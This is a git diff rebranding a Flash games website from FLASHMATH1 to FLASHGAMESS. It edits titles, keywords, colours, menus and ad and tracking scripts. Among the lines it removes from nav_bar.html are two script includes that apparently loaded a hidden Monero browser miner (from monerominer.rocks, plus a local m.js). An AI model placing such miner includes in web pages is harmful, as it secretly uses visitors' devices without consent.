

2

diff --git a/index.html b/index.html
@@ -34,12 +34,12 @@
 
   gtag('config', 'UA-124591787-1');
 </script>
-  <title>FLASHMATH1: Flash Games For Your Entertainment!</title>
+  <title>FLASHGAMESS! Best games ever!</title>
   <meta charset="utf-8">
   <meta name="Description" CONTENT="FLASHMATH1 is a site that provides access to many FLASH GAMES such as SUPER SMASH FLASH 2, Bloons Tower Defense 5, CLICKER HEROES, and Tank Trouble.">
   <meta name="google-site-verification" content="SUOhYrHR417hC2DHTgJY21VGtumjqjT9bQjqeQUTreA" />
   <meta name='url' content='http://flashmath1.github.io'>
-  <meta name='keywords' content='flash, games, flash games, flashmath1, flash math 1, flashmathone, flash math one, flashmath, flash math, fun games, fun, games, flash, math, one, 1, online games,
+  <meta name='keywords' content='flash, games, flash games, flashgamess, flashgames flash unblocked, games to play when bored
 online games ,
 online games free,
 online games multiplayer,
@@ -2165,26 +2165,10 @@ unblocked xmas games
   <meta name='subject' content='Games'>
   <meta name='author' content='I. Beverly, isc.bev@gmail.com'>
   <link rel='logo' type='image/png' href='/untitled49.png'>
-  <script type="text/javascript" id="cookieinfo"
-	src="//cookieinfoscript.com/js/cookieinfo.min.js"
-	data-bg="#645862"
-	data-fg="#FFFFFF"
-	data-link="#F1D600"
-	data-cookie="CookieInfoScript"
-	data-text-align="left"
-  data-message = "To receive a notice whenever a new game is added, enable notifications for this site."
-  data-close-text="Ok!">
-</script>
 
      <script src="https://code.jquery.com/jquery-latest.min.js" type="text/javascript"></script>
 
-<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
-<script>
-  (adsbygoogle = window.adsbygoogle || []).push({
-    google_ad_client: "ca-pub-9995284182131005",
-    enable_page_level_ads: true
-  });
-</script> 
+
   <style>
      
  .link {
@@ -2236,9 +2220,7 @@ body {
   <div id="navbar"></div>
 <div class="main">
 <div align=center>
-<img src="untitled50.png"alt="<H1>FLASHMATH1</H1>" width="500" height="100">
-	<h4>Lets Reach 15 million Page Views! Share this site with your friends!</h4>
-	<iframe width="180" height="130" src="https://datastudio.google.com/embed/reporting/1lmVgO_Bcfzu_i2kFjp6WRi6sKurJ2pV3/page/Aryi" frameborder="0" style="border:0" allowfullscreen></iframe>
+<img src="untitled50.png"alt="<H1>FLASHGAMESS</H1>" width="500" height="100">
 </div>
 <HR>
 </div>
@@ -2254,8 +2236,8 @@ body {
      
 	   <div id="footer"></div>
      <script>
-  $("#navbar").load("https://flashmath1.github.io/nav_bar.html"); 
-  $("#footer").load("https://flashmath1.github.io/footer.html");
+  $("#navbar").load("https://flashgamess.com/nav_bar.html"); 
+  $("#footer").load("https://flashgamess.com/footer.html");
   </script>
 </BODY>
 </HTML>

diff --git a/nav_bar.html b/nav_bar.html
@@ -3,8 +3,6 @@
 
 <head>
   <script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
-  <script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
-  <script src="m.js"></script>
   <script type='text/javascript'
     src='https://platform-api.sharethis.com/js/sharethis.js#property=5dbb5b5982fb1100124ccc6a&product=inline-follow-buttons'
     async='async'></script>
@@ -36,7 +34,7 @@
   <link rel="icon" href="favicon.ico">
   <style>
     body {
-      background-color: #2f8433;
+      background-color: #0000cd;
     }
   </style>
   <script src="//inc.freefind.com/inc/ffse-overlay.min.js" async></script>
@@ -123,7 +121,7 @@
 
 <body>
   <div class="navbar">
-    <a href="/index.html"><b>FLASHMATH1</b></a>
+    <a href="/index.html"><b>FLASHGAMESS</b></a>
     <a href="/working_games_menu.html"><b>Working after 2020</b></a>
     <a href="/all-games-menu.html">All Games</a>
     <div class="dropdown">
@@ -222,17 +220,6 @@
       </div>
     </div>
 
-    <div class="dropdown">
-      <button class="dropbtn">Other
-        <i class="fa fa-caret-down"></i>
-      </button>
-      <div class="dropdown-content">
-        <a href="/gamerequest.html">Request Game</a>
-        <a href="/contactus.html">Contact Us</a>
-        <a href="/about.html">About</a>
-        <a href="/privacypolicy.html">Privacy Policy</a>
-      </div>
-    </div>
 
   </div>
 </body>
